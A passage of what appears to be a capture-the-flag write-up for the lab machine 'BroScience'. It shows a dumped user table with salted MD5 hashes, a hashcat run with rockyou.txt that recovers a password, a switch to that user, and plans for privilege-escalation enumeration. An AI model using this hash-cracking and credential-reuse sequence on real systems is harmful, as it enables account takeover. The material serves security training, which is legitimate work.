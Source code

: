 ``` bash
T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJ
PPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8
SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx
5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUN
tWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
  6 | abc           | 09f7446e14f9fe357e16c5f43a78422e | abc@abc.com                  | j7X4K073w1xdb8mHWD
lqZOVZrkNEYfGL | f            | f        | 2023-01-17 12:11:30.81959-05
(6 rows)
```
* now we have the hashes
* In regiser.php we find this line
* To create the new user it uses md5 salt

```
res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

Remember from Enumeration 
md5($db_salt . $_POST['password']) == md5(NaCl . $_POST['password'])

bill  13edad4932da9dbb57d9cd15b66ed104

```


``` bash
❯ hashcat -m 20 -a 0 billHash.txt /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt --show
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym

```
* We have a user account and password so we can login


``` bash
(remote) www-data@broscience:/$ su bill                                                                  
Password: 
bill@broscience:/$ pwd
bill@broscience:~$ pwd
/home/bill
bill@broscience:~$ cat user.txt 
faf3ae31439bd21c1b10bae79e573131
```
* Now that we've got the flag from the user
* Execute linpeas
* Execute pspy
* Explore directories and found renew_cert.sh in /opt/
* Download renew_cert.sh and see how it works
